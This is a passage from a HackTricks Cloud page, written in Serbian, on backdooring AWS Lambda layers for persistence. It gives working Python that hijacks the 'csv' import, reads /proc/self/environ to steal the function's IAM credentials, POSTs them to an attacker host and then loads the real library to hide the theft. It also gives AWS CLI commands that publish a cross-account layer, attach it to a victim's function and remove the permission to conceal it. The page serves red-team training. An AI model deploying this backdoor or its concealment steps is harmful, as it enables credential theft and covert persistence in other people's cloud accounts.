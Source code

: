 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambda layer je .zip datoteka koja **može sadržati dodatni kod** ili drugi sadržaj. Layer može sadržati biblioteke, [prilagođeno vreme izvršavanja](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), podatke ili konfiguracione datoteke.

Moguće je uključiti do **pet layera po funkciji**. Kada uključite layer u funkciju, **sadržaj se ekstrakuje u `/opt`** direktorijum u okruženju izvršavanja.

Po **zadovoljstvu**, **layeri** koje kreirate su **privatni** za vaš AWS nalog. Možete odlučiti da **podelite** layer sa drugim nalozima ili da **napravite** layer **javnim**. Ako vaše funkcije koriste layer koji je objavio drugi nalog, vaše funkcije mogu **nastaviti da koriste verziju layera nakon što je obrisana, ili nakon što je vaša dozvola za pristup layeru opozvana**. Međutim, ne možete kreirati novu funkciju ili ažurirati funkcije koristeći obrisanu verziju layera.

Funkcije koje su implementirane kao kontejnerska slika ne koriste layer-e. Umesto toga, pakujete svoje omiljeno vreme izvršavanja, biblioteke i druge zavisnosti u kontejnersku sliku kada gradite sliku.

### Python load path

Putanja učitavanja koju će Python koristiti u lambda je sledeća:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Proverite kako **druga** i treća **pozicija** zauzimaju direktorijumi gde **lambda slojevi** raspakuju svoje datoteke: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Ako napadač uspe da **ubaci** zloćudni kod u korišćeni lambda **sloj** ili **doda jedan** koji će **izvršavati proizvoljan kod kada se učita uobičajena biblioteka**, moći će da izvrši zloćudni kod sa svakim pozivom lambda funkcije.
{% endhint %}

Stoga, zahtevi su:

* **Proverite biblioteke** koje su **učitane** kod žrtve
* Kreirajte **proxy biblioteku sa lambda slojevima** koja će **izvršavati prilagođeni kod** i **učitati originalnu** biblioteku.

### Učitane biblioteke

{% hint style="warning" %}
Kada se zloupotrebljava ova tehnika, naišao sam na poteškoću: Neke biblioteke su **već učitane** u python runtime kada se vaš kod izvršava. Očekivao sam da pronađem stvari poput `os` ili `sys`, ali **čak je i `json` biblioteka bila učitana**.\
Da bi se zloupotrebljavala ova tehnika postojanosti, kod treba da **učita novu biblioteku koja nije učitana** kada se kod izvršava.
{% endhint %}

Sa python kodom poput ovog moguće je dobiti **listu biblioteka koje su unapred učitane** unutar python runtime u lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
I ovo je **lista** (proverite da li su biblioteke poput `os` ili `json` već prisutne)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I ovo je lista **biblioteka** koje **lambda uključuje instalirane po defaultu**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

U ovom primeru pretpostavimo da ciljani kod uvozi **`csv`**. Mi ćemo **napraviti backdoor za uvoz `csv` biblioteke**.

Da bismo to uradili, kreiraćemo **direktorijum csv** sa fajlom **`__init__.py`** u njemu na putanji koja se učitava od strane lambda: **`/opt/python/lib/python3.9/site-packages`**\
Zatim, kada se lambda izvrši i pokuša da učita **csv**, naš **`__init__.py` fajl će biti učitan i izvršen**.\
Ovaj fajl mora:

* Izvršiti naš payload
* Učitati originalnu csv biblioteku

Možemo uraditi oboje sa:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Zatim, kreirajte zip sa ovim kodom na putanji **`python/lib/python3.9/site-packages/__init__.py`** i dodajte ga kao lambda layer.

Ovaj kod možete pronaći na [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Integrisani payload će **poslati IAM kredencijale na server PRVI PUT kada se pozove ili NAKON resetovanja lambda kontejnera** (promena koda ili hladna lambda), ali **druge tehnike** kao što su sledeće takođe mogu biti integrisane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Eksterni Layeri

Napomena da je moguće koristiti **lambda layer-e iz eksternih naloga**. Štaviše, lambda može koristiti layer iz eksternog naloga čak i ako nema dozvole.\
Takođe, napomena da je **maksimalan broj layer-a koji lambda može imati 5**.

Stoga, kako bi poboljšao svestranost ove tehnike, napadač bi mogao:

* Backdoor-ovati postojeći layer korisnika (ništa nije eksterno)
* **Kreirati** **layer** u **svojim nalogu**, dati **nalogu žrtve pristup** da koristi layer, **konfigurisati** **layer** u Lambda žrtve i **ukloniti dozvolu**.
* **Lambda** će i dalje moći da **koristi layer** i **žrtva neće** imati lak način da **preuzme kod layer-a** (osim ako ne dobije rev shell unutar lambda)
* Žrtva **neće videti eksterne layer-e** korišćene sa **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
